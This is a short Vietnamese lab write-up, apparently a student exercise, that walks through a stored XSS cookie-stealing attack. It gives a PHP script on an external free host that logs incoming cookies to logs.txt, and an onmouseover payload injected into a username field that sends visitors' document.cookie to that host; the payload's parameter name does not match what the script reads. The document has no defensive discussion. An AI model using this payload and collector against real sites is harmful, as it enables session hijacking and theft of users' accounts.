


Người thực hiện: Lê Trần Văn Chương
Ngày: 12/04/2022
Mục lục:
- [Host](#host)
- [XSS](#xss)

## Host
- Host nhận cookie người dùng: https://php-bacsic.000webhostapp.com/index.php
- Host để attack: https://00bluec10.000webhostapp.com/index.php

## XSS

1. Thêm đoạn code sau vào host nhận cookie. Đoạn code này sẽ lấy cookie và ghi vào file `logs.txt`.

```php
<?php
$cookie = $_GET["cookie"];
$file = fopen('logs.txt', 'a');
fwrite($file, $cookie . "\n\n");
?>
```

2. Thêm `<a onmouseover=\"document.location=\'https://php-bacsic.000webhostapp.com/index.php?c=\'+escape\(document.cookie\)\;\">XSSError</a>` vào username và khi người dùng vào web và rê chuột vào chữ `XSSError` thì lực tức sẽ được chuyển qua trang host để lấy cookie người.


3. Kiểm tra lại file `logs.txt`


